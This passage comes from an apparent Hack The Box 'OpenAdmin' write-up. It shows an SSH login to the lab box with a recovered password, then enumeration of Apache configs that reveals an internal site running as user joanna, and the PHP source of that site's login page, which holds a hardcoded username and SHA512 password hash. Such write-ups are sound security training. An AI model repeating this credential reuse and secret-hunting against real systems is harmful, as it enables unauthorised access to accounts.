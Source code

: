 The `n1nj4W4rri0R!` password works with user `jimmy` to get an SSH shell:

```
root@kali:~/htb/openadmin# ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 

jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

## Escalating to user joanna

Looking at the Apache2 configuration, I see there's an internal website running on port 52846.

```
$ ls -l /etc/apache2/sites-available/*
-rw-r--r-- 1 root root 6338 Jul 16 18:14 /etc/apache2/sites-available/default-ssl.conf
-rw-r--r-- 1 root root  303 Nov 23 17:13 /etc/apache2/sites-available/internal.conf
-rw-r--r-- 1 root root 1329 Nov 22 14:24 /etc/apache2/sites-available/openadmin.conf

$ cat /etc/apache2/sites-available/internal.conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

The `index.php` file contains the username and SHA512 hash of the password.

```php
<h2>Enter Username and Password</h2>
      <div class = "container form-signin">
        <h2 class="featurette-heading">Login Restricted.<span class="text-muted"></span></h2>
          <?php
            $msg = '';

            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
         ?>
      </div>
```
